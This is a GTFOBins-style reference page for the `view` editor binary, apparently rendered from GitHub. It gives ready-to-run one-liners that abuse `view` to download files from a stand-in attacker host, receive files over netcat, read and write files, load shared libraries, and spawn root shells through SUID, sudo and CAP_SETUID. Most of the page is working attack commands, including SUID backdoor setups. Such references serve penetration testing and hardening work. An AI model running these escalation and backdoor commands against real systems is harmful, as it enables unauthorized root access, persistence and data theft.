 # GTFOBin: view

## File download

It can download remote files.

This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
view -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])
vim.command(":q!")'
```

Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.

```
export LPORT=12345
export LFILE=file_to_save
view -c ':lua local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  local d,x=c:receive("*a");
  c:close();
  local f=io.open(os.getenv("LFILE"), "wb");
  f:write(d);
  io.close(f);'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
view file_to_write
iDATA
^[
w!
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
view file_to_read
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.

```
view -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo install -m =xs $(which view) .

./view -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo view -c ':!/bin/sh'
```

This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo view -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

This requires that `view` is compiled with Lua support.

```
sudo view -c ':lua os.execute("reset; exec sh")'
```

## Capabilities

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.

```
cp $(which view) .
sudo setcap cap_setuid+ep view

./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `view` is compiled with Lua support.

```
sudo install -m =xs $(which view) .

./view -c ':lua os.execute("reset; exec sh")'
```